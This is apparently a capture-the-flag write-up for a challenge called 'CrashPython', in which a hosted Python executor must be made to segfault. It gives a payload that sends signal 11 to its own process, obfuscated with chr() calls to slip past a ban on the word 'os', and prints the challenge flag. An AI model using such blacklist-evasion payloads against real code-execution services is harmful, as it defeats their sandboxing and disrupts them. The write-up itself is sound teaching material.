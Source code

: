 # CrashPython
Category: Misc

## Description
I am hosting an uncrashable Python executor API. Crash it to get the flag.

- Junhua

[http://34.124.157.94:5000](http://34.124.157.94:5000)

Attachments: [dist.zip](attachments/dist.zip)

## Write-up
- Upon examining the source code, it appeared that our user input was being sent to `judge0` for Python code execution.
- The flag would only be displayed if the following conditions were met:
```
status == 11 and message == "Exited with error status 139" and "Segmentation fault" in stderr
```
- The most straightforward approach was to send a `SIGSEV` signal to our own process.
- We could achieve this by using the following Python code:
```
import os
os.kill(os.getpid(), 11)
```
- However, since the word `os` was banned, we needed to modify the payload to meet the requirements:
```
__import__(chr(111)+chr(115)).kill(__import__(chr(111)+chr(115)).getpid(), 11)
```

![](solution/image.png)

Flag: `grey{pyth0n-cv3-2021-3177_0r_n0t?_cd924ee8df15912dd55c718685517d24}`

PS: Interesting article posted on Discord after the CTF, [https://codegolf.stackexchange.com/questions/4399/shortest-code-that-raises-a-sigsegv](https://codegolf.stackexchange.com/questions/4399/shortest-code-that-raises-a-sigsegv)
